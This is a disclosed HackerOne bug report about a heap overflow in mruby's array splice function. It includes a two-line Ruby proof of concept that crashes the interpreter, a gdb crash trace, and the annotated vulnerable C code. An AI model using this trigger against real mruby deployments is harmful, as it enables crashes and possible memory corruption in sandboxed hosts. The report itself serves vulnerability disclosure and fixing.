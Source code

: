 # Heap Overflow in mrb_arb_splice

## Report Details
- **Report ID**: 192362
- **URL**: https://hackerone.com/reports/192362
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-19T08:57:01.719Z
- **Disclosed**: 2017-01-12T03:09:25.728Z

## Reporter
- **Username**: tunz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
It's similar with #192235, but the root cause is different.

both of mruby and mruby-engine are crashed by the following PoC. (MRB_INT64)
```ruby
ary = Array.new(1023)
ary[0x7ffffffffffffc00,0] = Array.new(1024)
```

```
$ gdb -q --args ./bin/mruby test2.rb
Reading symbols from ./bin/mruby...done.
(gdb) r
Starting program: /home/tunz/working/mruby/mruby/bin/mruby test2.rb

Program received signal SIGSEGV, Segmentation fault.
0x00000000004147fe in ary_fill_with_nil (ptr=0xe5c010, size=9223372036854765337) at /home/tunz/working/mruby/mruby/src/array.c:104
104         *ptr++ = nil;
(gdb) list
99      ary_fill_with_nil(mrb_value *ptr, mrb_int size)
100     {
101       mrb_value nil = mrb_nil_value();
102
103       while (size--) {
104         *ptr++ = nil;
105       }
106     }
107
108     static void
(gdb) bt
#0  0x00000000004147fe in ary_fill_with_nil (ptr=0xe5c010, size=9223372036854765337) at /home/tunz/working/mruby/mruby/src/array.c:104
#1  0x0000000000415fd1 in mrb_ary_splice (mrb=0xdd7010, ary=..., head=9223372036854774784, len=-9223372036854773761, rpl=...)
    at /home/tunz/working/mruby/mruby/src/array.c:626
#2  0x00000000004165be in mrb_ary_aset (mrb=0xdd7010, self=...) at /home/tunz/working/mruby/mruby/src/array.c:808
#3  0x0000000000430c09 in mrb_vm_exec (mrb=0xdd7010, proc=0xdda210, pc=0xe3f03c) at /home/tunz/working/mruby/mruby/src/vm.c:1171
#4  0x000000000042f121 in mrb_vm_run (mrb=0xdd7010, proc=0xdda210, self=..., stack_keep=0)
    at /home/tunz/working/mruby/mruby/src/vm.c:772
#5  0x0000000000437199 in mrb_top_run (mrb=0xdd7010, proc=0xdda210, self=..., stack_keep=0)
    at /home/tunz/working/mruby/mruby/src/vm.c:2487
#6  0x0000000000447847 in mrb_load_exec (mrb=0xdd7010, p=0xe332d0, c=0xe31f40)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-compiler/core/parse.y:5755
#7  0x00000000004478dd in mrb_load_file_cxt (mrb=0xdd7010, f=0xe32f10, c=0xe31f40)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-compiler/core/parse.y:5764
#8  0x00000000004024fc in main (argc=2, argv=0x7ffff40a93e8)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232
(gdb) x/i $pc
=> 0x4147fe <ary_fill_with_nil+51>:     mov    QWORD PTR [rcx],rax
(gdb) i r rcx
rcx            0xe5c000 15056896
```

I think the following lines are the problem in src/array.c:
```C
 581 MRB_API mrb_value
 582 mrb_ary_splice(mrb_state *mrb, mrb_value ary, mrb_int head, mrb_int len, mrb_value rpl)
 583 {
...
 619   size = head + argc; // size is calculated here, and can be overflow
 620
 621   if (tail < a->len) size += a->len - tail;
 622   if (size > a->aux.capa) // then, bypass this condition
 623     ary_expand_capa(mrb, a, size);
 624
 625   if (head > a->len) {
 626     ary_fill_with_nil(a->ptr + a->len, head - a->len); // heap overflow since capa is still small. 
 627   }
...
```

## Attachments
No attachments
